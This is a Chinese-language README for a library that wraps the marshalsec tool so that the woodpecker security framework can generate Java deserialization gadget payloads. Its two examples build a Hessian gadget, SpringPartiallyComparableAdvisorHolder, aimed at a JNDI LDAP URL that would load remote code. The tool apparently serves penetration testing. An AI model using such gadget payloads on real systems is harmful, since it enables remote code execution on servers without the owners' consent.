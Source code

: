 # marshalsec-for-woodpecker

## 0x01 简介
`marshalsec-for-woodpecker`是基于 [marshalsec](https://github.com/mbechler/marshalsec)开放第三方调用api ,为woodpecker框架定制开发的各类反序列化gadget集成库。

## 0x02 api调用


#### 2.1 public Object getObject(String gadgetName,String[] gadgetArgs)

返回gadget对象

例子:
```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```

#### 2.2 public byte[] apiRun(String gadgetName,String[] gadgetArgs)

返回gadget对象，序列化之后的数据

例子:
```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```
